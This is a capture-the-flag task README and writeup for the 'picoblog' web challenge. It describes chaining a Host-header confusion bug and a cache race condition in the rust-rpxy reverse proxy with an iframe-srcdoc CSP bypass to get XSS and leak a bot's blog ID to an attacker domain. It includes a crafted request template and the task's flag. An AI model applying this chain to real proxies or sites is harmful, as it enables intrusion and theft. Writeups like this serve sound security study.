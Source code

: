 # web | picoblog

## Information

> My addiction to microblogging is incurable
>
> https://picoblog-1ea47ec5f44a1743.brics-ctf.ru

## Deploy

Deploy rpxy ([deploy/rpxy](deploy/rpxy)) without Cloudflare:

```sh
cd deploy
docker-compose -p rpxy up --build -d
```

Deploy the task ([deploy/blog](deploy/blog)) with Cloudflare:

```sh
cd deploy
docker-compose -p picoblog up --build -d
```

## Public

Provide zip file: [public/picoblog.zip](public/picoblog.zip).

## TLDR

Poison the reverse proxy cache using a race condition and Host header spoofing in order to load arbitrary blog settings, then exploit the XSS present due to `@html` by using a script tag leading to the static domain inside an iframe in order to bypass the CSP.

## Writeup

[rust-rpxy](https://github.com/junkurihara/rust-rpxy), the reverse proxy used by the task as a cache in front of S3, contains a few bugs, which, when chained, lead to cache poisoning:

1. When the "override_host" upstream option isn't enabled, and by default it isn't, it is possible to direct the request to a different host by specifying the target in the URL instead, like this:

   ```
   GET https://picoblog-static-ae182846340bc2df.brics-ctf.ru/{blog_id}.json HTTP/1.1
   Host: {attacker_bucket}
   ```

   Specifying the request URL inside the path is defined as correct by the HTTP/1.1 RFCs, however, they specify that the server should act exactly the same as when it receives the host in the "Host" header. rust-rpxy, however, incorrectly proxies the request without replacing the host header with the one from the request path.

2. Both file- and memory-based caching is supported, but they are implemented using different data structures locked by different mutexes, which leads to a race condition when a new file is being cached. Specifically, during `put` the cache first writes the file and only then saves the metadata, which allows us to race this logic in order to replace the file being cached before its metadata is written to memory.

In order to simplify exploitation and the task overall, a patch was provided which adds one more locking call. However, exploiting by simply running requests is still unlikely, since the proxy is much faster than any possible network ping. Thus, (I hope), the only way to exploit the race condition was to prepare multiple concurrent requests without the last byte, and then send the last byte at the same time. This is my implementation of the race condition exploitation: [solve/race/main.go](solve/race/main.go).

By exploiting the race condition, it is possible to cache the response from your own S3 bucket which would contain the necessary blog JSON configuration needed to exploit the XSS present due to `@html` insertion of the post content (which by default is escaped properly by the server) in the frontend: [deploy/blog/front/src/routes/blog/[id]/page.svelte#74](deploy/blog/front/src/routes/blog/%5Bid%5D/%2Bpage.svelte#74).

Since the website's CSP doesn't allow 'unsafe-inline', and the XSS sink is `innerHTML`, it isn't possible to insert a simple `<img src=x onerror=... />` or `script` tag. However, even though both the `X-Frame-Options` header and `frame-ancestors` CSP policy option are enabled, it is possible to insert an `iframe` with an `srcdoc` tag, since the framing options won't apply to it. Having an iframe with the same origin, you can then simply load a `script` tag pointing to the static domain (the contents of which, once again, you can control using cache poisoning), and leak the bot's blog ID to your own domain using `window.parent.location={attacker_domain}`; My XSS exploitation script looks like this: [solve/script.js](solve/script.js).

Additionally, to prepare the files to be uploaded to the attacker's bucket, I've written this script: [solve/prepare-payloads.py](solve/prepare-payloads.py). It creates new blogs, fills them with enough content for the JSON files to be cached as files instead of memory, and then writes two files to be uploaded padded to the appropriate length (the length of the attacker's file must be the same because content-length is cached by rpxy in the memory cache).

## Domain

Public task domain:
picoblog-1ea47ec5f44a1743.brics-ctf.ru

Static rpxy domain:
picoblog-static-ae182846340bc2df.brics-ctf.ru

## Cloudflare

No for picoblog-static-ae182846340bc2df.brics-ctf.ru, Yes for picoblog-1ea47ec5f44a1743.brics-ctf.ru

## Flag

brics+{rUsty-c4ch3_r3ally-is_rusty_f9464879f5b148b5}
